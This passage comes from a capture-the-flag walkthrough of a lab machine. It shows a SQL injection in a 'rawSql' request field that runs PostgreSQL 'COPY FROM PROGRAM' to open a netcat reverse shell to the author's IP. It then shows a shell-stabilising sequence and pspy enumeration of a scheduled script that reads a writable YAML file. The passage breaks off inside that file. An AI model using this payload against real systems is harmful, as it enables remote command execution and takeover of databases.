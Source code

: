I went back to burpsuite and inserted the command with my ip and port where sqlmap inserted their payload:

{% code overflow="wrap" %}
```
"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;;COPY shell FROM PROGRAM './rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.74 1234 >/tmp/f';--",
```
{% endcode %}

I upgraded my reverse shell from a basic one to a stabilized one:

> python3 -c 'import pty;pty.spawn("/bin/bash")'
>
> ctrl+z
>
> stty raw -echo; fg
>
> export TERM=xterm
>
> Press enter

Now we have a fully functioning shell we can properly enumerate.

The next question is;

6. What is the full path to the script that is running as UID 1000 every two minutes?&#x20;

We need to analyze a script that runs every two minutes, I am going to use pspy for this, I upload pspy32 from my local machine and view the output. After waiting a bunch of commands are executed by UID 1000 which is user juno. First they execute a script called shadow-simulation.sh in their directory whcih removes the file /dev/shm/shadow.data and runs the binary shadow on /dev/shm/network.yml. This network-simulation.yml is a file we have write access to.

<div data-full-width="true">

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

</div>

Below is the network-simulation.yml file:

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
```